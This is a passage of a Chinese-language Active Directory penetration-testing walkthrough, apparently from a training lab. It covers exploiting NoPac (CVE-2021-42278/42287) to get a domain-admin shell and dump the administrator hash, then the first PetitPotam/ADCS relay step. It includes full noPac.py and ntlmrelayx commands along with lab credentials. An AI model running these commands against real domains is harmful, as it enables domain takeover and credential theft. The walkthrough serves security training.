   
![1744596697_67fc6ed906e22e6621ca6.png!small?1744596697899](https://mmbiz.qpic.cn/mmbiz_jpg/5975bXHXfWElmicQfyttQ4ULfUdkaNe9BjZPDHVnnFxxATaCwbwaaDGm8tbEOjg1wyAC2szrsHy3ibvJgs4nTibew/640?wx_fmt=jpeg&from=appmsg "")  
  
查看发现拿到Meterpreter shell，已经是高权限。  
  
![1744596725_67fc6ef582c02eae665c4.png!small?1744596727003](https://mmbiz.qpic.cn/mmbiz_jpg/5975bXHXfWElmicQfyttQ4ULfUdkaNe9BSJtXDU2cpQnWLyqlfCDQIcdyeia8Mh91iaFzFNB9xg5c8vGCYPB0dUOQ/640?wx_fmt=jpeg&from=appmsg "")  
## NoPac  
  
**NoPac**  
（**SamAccountName Spoofing**  
），利用了Windows域中的安全漏洞，允许攻击者从任何普通域用户身份通过一个命令提升权限至域管理员。这种漏洞包括两个CVE编号，分别为**CVE-2021-42278**  
和**CVE-2021-42287**  
。  
  
noPac利用工具  
### 漏洞扫描  
  
可以使用一个普通的域用户账户运行扫描器（scanner.py），尝试从目标域控制器获取一个TGT（Ticket Granting Ticket）。如果成功，说明系统确实存在这个漏洞。  
> python3 scanner.py inlanefreight.local/forend:Klmcargo2 -dc-ip 172.16.5.5 -use-ldap  
  
  
![1744871335_68009fa760cd0b8497b18.png!small?1744871335943](https://mmbiz.qpic.cn/mmbiz_jpg/5975bXHXfWElmicQfyttQ4ULfUdkaNe9B3VkctGP70TiagNmydSJO1eW1EcJLc3NTbrpvVia0ib9qEeUiaeib1UKicy2w/640?wx_fmt=jpeg&from=appmsg "")  
  
在成功获取TGT之后，表明确实存在漏洞，还可以发现**ms-DS-MachineAccountQuota**  
的值被设置为**10**  
。这个值控制了每个域用户账户最多可以在域中添加多少台计算机账户。默认情况下，这个值是10，表示可以添加最多10台计算机。如果将**ms-DS-MachineAccountQuota**  
的值设置为**0**  
。攻击就会失败，用户将没有权限添加新的计算机账户。  
### 漏洞利用  
> sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 -shell --impersonate administrator -use-ldap  
  
  
![1744871640_6800a0d8d2f9ed67b3a22.png!small?1744871641616](https://mmbiz.qpic.cn/mmbiz_jpg/5975bXHXfWElmicQfyttQ4ULfUdkaNe9BmHx6YicPPL54ibhj5Uib5W3Jib0Mk2Uxwpo2GxehjzGkb3sXPn9afJCicvA/640?wx_fmt=jpeg&from=appmsg "")  
### Dump hash  
  
sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 --impersonate administrator -use-ldap -dump -just-dc-user INLANEFREIGHT/administrator  
  
![1744871883_6800a1cbe4948736766b2.png!small?1744871884503](https://mmbiz.qpic.cn/mmbiz_jpg/5975bXHXfWElmicQfyttQ4ULfUdkaNe9BNHxSbRL3WRs82ODPmHHUMLsSUsSzrzab79Dmtzffm5IUicB40mQuFqA/640?wx_fmt=jpeg&from=appmsg "")  
  
导出了administrator的NTML。  
## PetitPotam  
  
**PetitPotam**  
（CVE-2021-36942）是一个LSA（本地安全机构）欺骗漏洞，允许未认证的攻击者通过Microsoft的**MS-EFSRPC**  
协议，利用端口445的NTLM身份验证，强迫域控制器与远程主机进行身份验证。  
### 攻击步骤1  
  
首先，我们需要在攻击主机上的一个窗口中启动 ntlmrelayx.py，指定 CA 主机的 Web 注册链接，并使用 KerberosAuthentication或DomainController ADCS 模板。  
> sudo ntlmrelayx.py -debug -smb2support --target http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL/certsrv/certfnsh.asp --adcs --template DomainController  
  